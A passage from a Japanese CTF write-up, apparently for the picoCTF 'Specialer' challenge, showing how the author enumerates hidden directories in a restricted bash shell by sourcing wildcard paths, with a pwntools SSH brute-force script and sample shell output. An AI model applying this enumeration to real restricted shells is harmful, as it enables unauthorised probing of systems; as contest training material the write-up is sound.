 総当りで調べるとすると、

`. b*`, `. c*`, `. d*` のように、a以外で始まるディレクトリも順番に見ていく必要があるのと、

`. ac*`, `. ad*`, `. ae*` のように、aで始まるけど、"abra"ではないディレクトリも探さないといけません。

<br /><br />

一個一個、コマンドを打つのは面倒だったので、以下の単純なスクリプトを書きました。

```python
#!/usr/bin/env python
from pwn import *
import string

s=ssh(host='saturn.picoctf.net', port=51877, user='ctf-player', password='483e80d4')

# cmd_base = '. ./'
# cmd_base = '. ./a'
# cmd_base = '. .'
cmd_base = '. ./ala/'

while True:
    found = 0
    chars = list(string.ascii_uppercase + string.ascii_lowercase + string.digits + '._-#$&?{}()')
    # chars = list(string.ascii_lowercase + string.digits + '._-')
    for c in chars:
        cmd = cmd_base + c + '*'
        data = repr(s(cmd))
        print(data)
s.close()
```

ベース (cmd_base)を用意しておいて、そこに1つの文字と、`*`をくっつけて、順に実行していくだけのものです。

これにより、ala というディレクトリがあることがわかり、alaの下を調べたら kazam.txt があるのがわかりました。

<br />

手動で、確認してみると、以下のような感じです。

<pre>
Specialer$ . ./a*
-bash: .: ./abra: is a directory

Specialer$ . ./al*
-bash: .: ./ala: is a directory

Specialer$ . ./ala/a*
-bash: ./ala/a*: No such file or directory

Specialer$ . ./ala/k*
-bash: return: too many arguments

Specialer$ ./ala/k*
-bash: ./ala/kazam.txt: Permission denied

Specialer$ . ./ala/kazam.txt
-bash: return: too many arguments
</pre>
